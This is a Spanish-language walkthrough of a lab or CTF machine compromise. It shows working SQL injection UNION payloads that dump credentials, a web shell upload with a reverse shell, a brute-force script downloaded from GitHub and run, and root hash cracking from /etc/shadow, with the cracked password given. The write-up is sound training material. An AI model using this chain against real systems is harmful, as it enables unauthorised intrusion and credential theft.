Comenzamos enviando traza _ICMP_ para verificar que la máquina nos responde e identificar _TTL_ (TimeToLive):

```bash
ping -c 1 172.17.0.2
```



Podemos ver que tiene un TTL de 64, por lo tanto estamos ante una maquina _Linux_.

Procederemos con el reconocimiento inicial:
```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv 172.17.0.2 -oG allPorts
```
El escaneo de puertos revela un único servicio expuesto:
_80_: HTTP (servicio web)

Dado que este es el único puerto accesible desde el exterior, podemos inferir que el vector de ataque principal se encuentra en la **aplicación web**, por lo que la explotación se realizará a través de dicho servicio.

A continuación, se realiza un escaneo más exhaustivo con el objetivo de **enumerar servicios y versiones**, haciendo uso de scripts de reconocimiento para obtener información adicional del sistema:

```bash
nmap -p80 -sCV --script http-enum 172.17.0.2 -oN targeted_webScan
```

Lo que nos devuelve los siguientes resultados:



A continuación, accedemos a la aplicación web, donde identificamos un **panel de autenticación**. Para continuar con el análisis, procedemos a **registrar un usuario** dentro de la aplicación.

Una vez autenticados, comenzamos a analizar las funcionalidades disponibles de la aplicación con el objetivo de identificar **endpoints y parámetros** relevantes.  
Si accedemos a **Cuenta** > **Comprar ahora**, podemos observar lo siguiente:



Procedemos a interactuar con la funcionalidad de **búsqueda** de la aplicación para identificar posibles vectores de explotación:



Como se puede observar, la aplicación realiza una consulta a la **base de datos** utilizando el parámetro `search`, lo que lo convierte en un **posible punto de entrada para una inyección SQL.** 

Para validar esta hipótesis, se prueba el parámetro utilizando el _payload_ `' OR 1=1-- -`, lo que provoca que la aplicación **muestre la totalidad de los artículos disponibles**, confirmando de esta forma la **existencia de una inyección SQL**. 

Para continuar con la explotación, procedemos a **enumerar la cantidad de columnas** de la consulta SQL mediante el uso de la cláusula `ORDER BY`.  
Para ello, utilizamos el siguiente _payload_:

`' ORDER BY 5-- -`

Al ejecutar dicho _payload_, la aplicación responde correctamente, lo que indica que la consulta utiliza **al menos cinco columnas**. Cuando incrementamos el valor a 6 en la cláusula 
`ORDER BY`, la consulta produce un error, lo que indica que la consulta SQL utiliza exactamente cinco columnas.





Utilizando la cláusula `' UNION SELECT 1,2,3,4,5-- -`, podemos identificar cuáles de las columnas de la consulta SQL **se reflejan en la salida de la página web**:



Procedemos a reemplazar el número reflejado en la página (en este caso, la columna 2) por el siguiente _payload_:

```sql
' UNION SELECT 1,GROUP_CONCAT(schema_name),3,4,5 FROM information_schema.schemata-- -
```

Al ejecutar esta consulta, podemos visualizar en la columna reflejada **todas las bases de datos presentes en el sistema**:



A continuación, procedemos a enumerar las tablas de la base de datos `apple_store` utilizando la siguiente consulta:

```sql
' UNION SELECT 1,GROUP_CONCAT(table_name),3,4,5 FROM information_schema.tables WHERE table_schema='apple_store'-- -
```

Esta consulta nos permite visualizar en la columna reflejada **todas las tablas existentes** en la base de datos `apple_store`.



A continuación, procedemos a enumerar las columnas de la tabla `users` utilizando la siguiente consulta:

```sql
' UNION SELECT 1,GROUP_CONCAT(column_name),3,4,5 FROM information_schema.columns WHERE table_name='users'-- -
```

Esta consulta nos permite visualizar en la columna reflejada **todas las columnas existentes** en la tabla `users`.



A continuación, procedemos a extraer la información de las columnas `username` y `password` de la tabla `users` de la base de datos `apple_store` utilizando la siguiente consulta:

```sql
' UNION SELECT 1,GROUP_CONCAT(CONCAT(username,':',password)),3,4,5 FROM apple_store.users-- -
```

Esta consulta nos permite visualizar en la columna reflejada **todos los pares de usuario y contraseña** almacenados en la tabla `users`:



Una vez obtenidos los hashes de las credenciales de los usuarios `luisillo`, `admin` y `test`, procedemos a realizar un **ataque de fuerza bruta** únicamente sobre el hash del usuario admin, utilizando `john`, con el objetivo de recuperar su contraseña en texto claro:



Una vez obtenida la contraseña, procedemos a autenticarnos en la aplicación web como el usuario `admin`, donde descubrimos un **panel de administración** que expone un endpoint que permite la **subida de archivos**:



El endpoint de subida implementa una **lista blanca de extensiones**, por lo que es necesario probar distintas extensiones PHP hasta identificar una aceptada por el servidor. Este proceso se realiza mediante la interceptación de la petición con **Burp Suite**.



Se realizaron pruebas manuales con distintas extensiones hasta identificar una aceptada por el servidor (_.phtml_).

A continuación, procedemos a realizar **fuzzing de rutas** con el objetivo de identificar posibles endpoints donde haya sido almacenada la web shell tras la subida del archivo. Para ello, utilizamos `gobuster` con el siguiente comando:

```bash
gobuster dir -u http://172.17.0.2 -w wordlists/directory-list-medium 
```

Se descubrió lo siguiente:



Accedemos al endpoint `/uploads` y confirmamos la presencia del archivo subido:



En primer lugar, comprobamos la correcta funcionalidad de la web shell mediante la ejecución de comandos.  
Posteriormente, nos ponemos en escucha con la herramienta `netcat` por el puerto **4444** y nos enviamos una **reverse shell**, obteniendo una sesión interactiva en el sistema.

La petición para ejecutar comandos a través de la web shell queda estructurada de la siguiente manera:

`http://172.17.0.2/uploads/cmd.phtml?cmd=<comando_del_sistema>`

A través del parámetro `cmd`, la web shell permite la ejecución de comandos arbitrarios, lo que posteriormente se aprovecha para establecer una reverse shell hacia el atacante.

Una vez obtenida la _Reverse Shell_, realizaremos un tratamiento de la _TTY_ con el fin de obtener una shell totalmente interactiva:

```bash
script /dev/null -c bash
```

A continuación, se envía la shell a segundo plano utilizando la combinación de teclas **Ctrl + Z**.

```bash
stty raw -echo;fg
reset xterm
export TERM=xterm
stty rows 40 columns 155
```

Ya dentro del sistema como el usuario `www-data`, el siguiente paso es la **escalada de privilegios**.  

---
**Escalada de privilegios**

Una vez obtenida una sesión interactiva en el sistema, procedemos con la fase de **escalada de privilegios**. Durante la enumeración de usuarios locales, identificamos la existencia del usuario `luisillo_o`, sobre el cual se llevará a cabo un ataque de diccionario contra el mecanismo de autenticación local (`su`).

Para ello, utilizamos el siguiente recurso:

[https://github.com/carlospolop/su-bruteforce](https://github.com/carlospolop/su-bruteforce)

Dado que la herramienta `wget` se encuentra disponible en el sistema comprometido, descargamos el script directamente desde el repositorio:

`wget https://raw.githubusercontent.com/carlospolop/su-bruteforce/refs/heads/master/suBF.sh`

Posteriormente, ofrecemos un diccionario de contraseñas desde nuestra máquina atacante y lo descargamos en el sistema victima utilizando el siguiente comando:

`wget http://172.17.0.1/rockyou.txt`

Le damos permisos de ejecucion al archivo `suBF.sh` con el siguiente comando:

```bash
chmod +x suBF.sh
```



Posteriormente, ejecutamos el script con el siguiente comando:

```bash
./suBF.sh -u luisillo_o -w rockyou.txt
```

Como resultado del ataque de diccionario sobre el mecanismo de autenticación `su`, se obtiene la contraseña correspondiente al usuario `luisillo_o`, tal como se observa a continuación:



A continuación, mediante el comando `id`, verificamos los grupos a los que pertenece el usuario, observando que forma parte del grupo **shadow**, lo que nos permite acceder al archivo `/etc/shadow`.



En este punto, resulta viable realizar un nuevo **ataque de fuerza bruta** con el objetivo de obtener la contraseña del usuario **root**. Para ello, extraemos las líneas correspondientes a los usuarios `root` desde los archivos `/etc/passwd` y `/etc/shadow`, y las transferimos a nuestra máquina atacante.






En este momento utilizamos la herramienta `unshadow` para combinar ambos archivos y llevar a cabo el proceso de _crackeo_ mediante fuerza bruta, utilizando **JohnTheRipper** nuevamente:



A continuación, llevamos a cabo el **ataque de fuerza bruta** utilizando `john` sobre el archivo generado con `unshadow`, empleando un diccionario de contraseñas. Para ello, ejecutamos el siguiente comando:

```bash
john --wordlist=../../../../Escritorio/wordlists/rockyou.txt --format=yescrypt unshadow.txt
```

Como resultado del proceso de crackeo, se obtiene la contraseña correspondiente al usuario **root**, la cual es:
`rainbow2`



---

**Conclusión**  
En esta máquina se logró el compromiso completo del sistema mediante una cadena de vulnerabilidades bien encadenadas. Inicialmente, una inyección SQL permitió la obtención de credenciales válidas de la aplicación. Posteriormente, el abuso de la funcionalidad de subida de archivos posibilitó la ejecución remota de comandos (RCE), estableciendo acceso al sistema.

Una vez dentro, se realizaron ataques de fuerza bruta contra ambos usuarios locales, lo que permitió comprometer sus cuentas y, finalmente, elevar privilegios hasta obtener acceso total al sistema.

Este escenario evidencia cómo fallas básicas de validación de entradas, controles débiles en la gestión de archivos y políticas de contraseñas deficientes pueden derivar en una compromisión completa del host.
